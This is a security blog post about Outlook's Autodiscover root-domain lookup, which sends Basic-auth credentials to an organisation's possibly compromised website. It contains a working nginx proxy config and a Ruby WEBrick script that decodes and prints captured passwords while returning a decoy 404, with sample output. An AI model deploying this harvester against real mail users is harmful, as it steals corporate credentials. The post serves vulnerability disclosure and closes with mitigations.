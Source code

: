 ```yaml
---
title: Obtaining Corporate Credentials via the Autodiscover Circus
description: Obtaining Corporate Credentials via the Autodiscover Circus
date: 2020-09-02
social_image: '/media/images/somuchwin.png'
tags: [autodiscover, vulnerabililty]
---
```


## Layout

It's fairly common for an organisation's website to exist outside the organisation's operational security policies. There's a common justification that for many organisations, the website is a marketing landing page and no sensitive data is ever involved. This in turn oftens leads to the prevance of, for example, shared hosting companies holding dozens of compromised Wordpress sites at a time.

We regularly see this when major businesses are compromised. This is unfortunate.

## Autodiscover noise

Anyone who has read the web access log on such a server has probably found themselve Googling what autodiscover.xml is. Here's an example from my own server, of something which may be rare if you have a few users. I grepped an larger organisation's log and found around 1200 hits per day.

```bash
020/09/02 05:54:40 [error] 385#385: *33613 open() "/var/www/html/autodiscover/autodiscover.xml" failed (2: No such file or directory),
    client: 1.2.3.4, server: lolware.net, request: "POST /autodiscover/autodiscover.xml HTTP/1.1", host: "lolware.net"
```
The reason for this is Microsoft's Autodiscover mechanism. And it's worth noting that while I'm going to talk about Outlook, many mail clients support autodiscover with varying rules and process.

Microsoft have a good technical brief here: [https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover](https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover).

As you can see, step six of the discovery processis "check the root domain". And that tends to be a step that's hit before the issue is settled, usually at step 7 or step 9. You can also see described the triggers and schedules for autodiscover.

A more practical, and digestable article for people not often working with Office 365 can be seen here: [https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/](https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/).

I quite like this article as the reference to the web hosting circus will be quite familiar to anyone who has had to support the average shared hosting environment. Those people will be familiar with how common hacked websites are.

## About that hacked webserver

The problem with the autodiscovery situation described is that I can put a redirect in my web server's nginx config:

```bash
        location /autodiscover/autodiscover.xml {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_pass http://localhost:8089;
        }
```

And of course similar options exist for Apache. With this in place, here's a dump of a proxied connection:

```bash
[2020-09-02 06:09:09] ERROR `/autodiscover/autodiscover.xml' not found.
127.0.0.1 - - [02/Sep/2020:06:09:09 UTC] "POST /autodiscover/autodiscover.xml HTTP/1.0" 404 299
- -> /autodiscover/autodiscover.xml


POST /autodiscover/autodiscover.xml HTTP/1.0
X-Forwarded-For: 1.2.3.4
Host: localhost:8089
Connection: close
Content-Length: 361
Content-Type: text/xml
User-Agent: Outlook/16.0 (16.0.5023.1000; MSI; x86)
X-MS-WL: Outlook/1.0
X-TransactionID: {BA9B4E4B-B8AD-40F0-893A-6A2059ACE7A6}
Authorization: Basic ZXhhbXBsZXVzZXJAbG9sd2FyZS5uZXQ6aW1hZ2luZWFwYXNzd29yZA==

<?xml version="1.0" encoding="UTF-8"?><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/requestschema/2006"><Request><EMailAddress>exampleuser@lolware.net</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006</AcceptableResponseSchema></Request></Autodiscover>
```

What's crucial here is that as long as the server doesn't immediately reject the connection with a 404, the connecting client sends a discovery request that *includes an Authorization header*. The below code can take advantage of this:

```ruby
#!/usr/bin/env ruby
# Reference: https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
require 'webrick'
require 'base64'

class Echo < WEBrick::HTTPServlet::AbstractServlet
  def do_POST(request, response)
    auth = request['Authorization']
    m = auth.match(/Basic (.+)/)
    if m
      puts "Credential Dump: " + Base64.decode64(m[1])
    end

    # Present a friendly normal "not here" to the connection
    response.status = 404
  end
end

server = WEBrick::HTTPServer.new(:Port => 8089)
server.mount "/", Echo
trap "INT" do server.shutdown end
server.start

```

## Secure Corporate Assets. Insecure website. User Passwords Dumped Anyway

Now obviously before I wrote this blog, I setup a temporary account and connected Outlook. Running the above code on my server started pumping this sort of content to the console.

```ruby
$ ./webrickprint.rb
[2020-09-02 06:41:19] INFO  WEBrick 1.4.2
[2020-09-02 06:41:19] INFO  ruby 2.6.5 (2019-10-01) [x86_64-linux]
[2020-09-02 06:41:19] INFO  WEBrick::HTTPServer#start: pid=323527 port=8089
Credential Dump: exampleuser@lolware.net:thiscouldbeyourpassword
```

## Mitigations

Microsoft's article discusses the *ExcludeHttpRedirect* registry key, but for most cases it's not a solution as it won't impact mobile users or anyone not using your exact version of Outlook on a corporate device.

The most approachable I've come up with is that a redirect can be put in place upstream if you use a service like Cloudflare. The following page rule takes this URL out of the hands of a web host by redirecting the connection to the correct place.


![Autodiscover rule](/media/images/autodiscoverpagerule.png)

The practical365 site states "the root domain lookup makes absolutely no sense to me" and any attempt to read a discussion on the issue will lead you to plenty of discussion of this as nonsense. Unfortunately for as long as this priority exists, this problem will.

